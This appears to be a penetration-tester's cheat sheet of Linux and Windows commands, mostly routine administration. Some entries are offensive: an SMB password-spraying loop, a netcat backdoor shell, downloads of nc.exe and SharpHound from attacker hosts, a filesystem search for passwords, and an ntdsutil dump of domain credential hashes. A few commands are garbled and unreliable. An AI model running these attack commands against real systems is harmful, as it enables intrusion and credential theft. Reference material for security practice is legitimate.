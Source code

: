 --- ---

<h3>Linux</h3>
| Command                                                                                                                                                                    | Purpose                                                                                                                      |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `GREENIE=haha; export GREENIE`                                                                                                                                             | Creates an environment variable named `GREENIE` with value `haha`, then exports it to be available to other programs         |
| `PATH=$PATH:/root/haha`                                                                                                                                                    | Adds the folder `/root/haha` to the system `PATH` environment variable while retaining the previous `PATH` value             |
| `sort | uniq -c | sort -n`                                                                                                                                                 | Takes `stdin`, sorts it, finds out the count of each unique value, then sorts by the count value in ascending order          |
| `cat squid_access.log | sort -k 2 | head`                                                                                                                                  | Reads `squid_access.log`, sorts it based on the second column, and displays the first 10 lines of the sorted output          |
| `wc -l`                                                                                                                                                                    | Counts the number of lines in a file or from `stdin`                                                                         |
| `wc -c`                                                                                                                                                                    | Counts the number of bytes in a file or from `stdin`                                                                         |
| `wc -w`                                                                                                                                                                    | Counts the number of words in a file or from `stdin`                                                                         |
| `awk '{print $1,$4}'`                                                                                                                                                      | Prints the first and fourth (non-zero indexed) characters/fields from `stdin`                                                |
| `awk '{print $(NF-1)}'`                                                                                                                                                    | Prints the second to last column from `stdin`                                                                                |
| `awk '{print length, $1}'`                                                                                                                                                 | Prints the length of each line and the contents of the first field/column from `stdin`                                       |
| `awk '{ sum += $1 } END { print sum }'`                                                                                                                                    | Takes the lines from a file/`stdin` and adds up the values in the first field/column, acting as a quick and dirty calculator |
| `cat peptides.txt | while read line; do echo $line; done`                                                                                                                  | Reads in each line from `peptides.txt`, then performs `echo` for each line                                                   |
| `cat users.txt | while read i; do echo trying $i; smbmap -u '$i' -p '$i' -H 10.10.10.172; done`                                                                            | Reads in each line from `users.txt`, then performs a password spraying attack on `10.10.10.172` using `smbmap`               |
| `for i in {1..5}; do echo $i; done`                                                                                                                                        | Loops from 1 to 5 and displays the value of `i` for each iteration                                                           |
| `for i in {000..999}; do echo KEY-HAHA-$i; done`                                                                                                                           | Creates a list of all values from `KEY-HAHA-000` to `KEY-HAHA-999` and displays each value                                   |
| `TF=$(mktemp -d)`                                                                                                                                                          | Creates a temporary directory and assigns its path to an environment variable named `TF`                                     |
| `${#TF}`                                                                                                                                                                   | Outputs the length of the value stored in the environment variable `TF`                                                      |
| `sed 's/12/13/g'`                                                                                                                                                          | Replaces all instances of `12` with `13` in stdin, will replace `1234` with `1334`                                           |
| `sed -i.bak '/line to delete/d' |`                                                                                                                                         | Deletes a line of text for all files in a directory                                                                          |
| `xxd -p`                                                                                                                                                                   | Prints the hex of stdin or a file only, without hexdump format                                                               |
| `xxd -r`                                                                                                                                                                   | Interprets raw hex from stdin, can redirect to save the hex to a file                                                        |
| `tr -d '\r' | tr -d '\n' | xxd -r -p`                                                                                                                                      | Takes hex input, removes newlines, and places it into a file                                                                 |
| `find / -user Matt 2>/dev/null`                                                                                                                                            | Finds all files owned by `Matt` on the box, redirects `stderr` to null                                                       |
| `find /etc -type f --name apache2.|`                                                                                                                                       | Finds any file which begins with `apache2.|` in `/etc`                                                                       |
| `grep -E "(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)"` | `grep` with regex to match any valid IP address (yes it's ugly)                                                              |
| `curl -d "param1=value&param2=value" https://example.com/resource.cgi`                                                                                                     | Sends parameters with `curl`                                                                                                 |
| `date -d @1286536308`                                                                                                                                                      | Converts an epoch timestamp to `date` output                                                                                 |
| `mknod backpipe p; /bin/bash 0<backpipe | nc -l -p 8080 1>backpipe`                                                                                                        | Creates a netcat backdoor without `-e` support                                                                               |
| `tar -zcvf files.tar.gz /var/log/apache2`                                                                                                                                  | Creates a `files.tar.gz` archive of all files in `/var/log/apache2`                                                          |
| `prips 10.10.10.0/24`                                                                                                                                                      | Prints all IPs in a specific subnet                                                                                          |
| `ifconfig eth0 169.254.0.1 netmask 255.255.0.0 broadcast 169.254.255.255`                                                                                                  | Assigns an IP address from the terminal                                                                                      |
| `ifconfig eth0 down; ifconfig eth0 hw ether 00:11:22:33:44:55; ifconfig eth0 up`                                                                                           | Changes the MAC address for interface `eth0`                                                                                 |
| `dhclient eth0`                                                                                                                                                            | Requests a DHCP address on interface `eth0`                                                                                  |
| `dd if=./input.file of=./outfile`                                                                                                                                          | Makes a bit-by-bit copy of a file or system                                                                                  |
| `sudo ln -s /usr/bin/python3 /usr/bin/python`                                                                                                                              | Creates a symbolic link for Python to run Python 3                                                                           |
| `sudo mkdir /mnt/new`                                                                                                                                                      | Creates a new directory `/mnt/new` with `sudo` permissions                                                                   |
| `mount /dev/sbd1 /mnt/new`                                                                                                                                                 | Mounts the file system located at `/dev/sbd1` to the directory `/mnt/new`                                                    |
| `umount /dev/sdb1`                                                                                                                                                         | Unmounts the file system located at `/dev/sdb1`                                                                              |
| `sudo route add -net default gw 10.10.0.1 netmask 0.0.0.0 dev wlan0 metric 1`                                                                                              | Adds another default route with a higher metric to choose a different interface to access the Internet                       |
| `sudo dhclient wlan0`                                                                                                                                                      | Requests a new DHCP lease on interface `wlan0`                                                                               |
| `openssl enc -aes-256-cbc -salt -in file.txt -out file.txt.enc`                                                                                                            | Encrypts a file with a password at the command line                                                                          |
| `openssl enc -aes-256-cbc -d -in file.txt.enc -out file.txt`                                                                                                               | Decrypts a file using a password at the command line                                                                         |

---

<h3>Windows</h3>
| Command                                                                                     | Purpose                                                                                                    |
| ------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------- |
| `get-childitem -hidden`                                                                     | Shows all hidden files in the current directory                                                            |
| `gci -recurse C:\ | % { select-string -path $_ -pattern password} 2>$null`                  | Searches through all files in C:\ for the string `password`                                                |
| `1..255 | % {ping -n1 192.168.0.$_ | sls ttl}`                                              | Looping command for ping sweep                                                                             |
| `(New-Object System.Net.Webclient).DownloadFile("http://10.1.1.1:8000/nc.exe","C:\nc.exe")` | Downloads a file to the `C:\` location                                                                     |
| `certutil -hashfile ntds.dit md5`                                                           | Hashes a file using MD5                                                                                    |
| `certutil -encodehex ntds.dit ntds.hex`                                                     | Encodes a file as hexadecimal                                                                              |
| `certutil -encode test.jpg test.base64`                                                     | Encodes a file as base64                                                                                   |
| `certutil -decode test.base64 test.jpg`                                                     | Decodes a base64-encoded file                                                                              |
| `iwr -uri http://10.10.14.27/SharpHound.ps1 -outfile SharpHound.ps1`                        | Downloads a file from another machine                                                                      |
| `$x=""; while ($true) { $y=get-clipboard -raw; if ($x -ne $y) { write-host $y; $x=$y } }`   | Monitors the clipboard and prints its contents to the screen                                               |
| `ntdsutil; activate instance ntds; ifm; create full C:\ntds; quit; quit;`                   | Uses `ntdsutil` to obtain the `SYSTEM` registry and hive data as a backup, containing user hashes to crack |



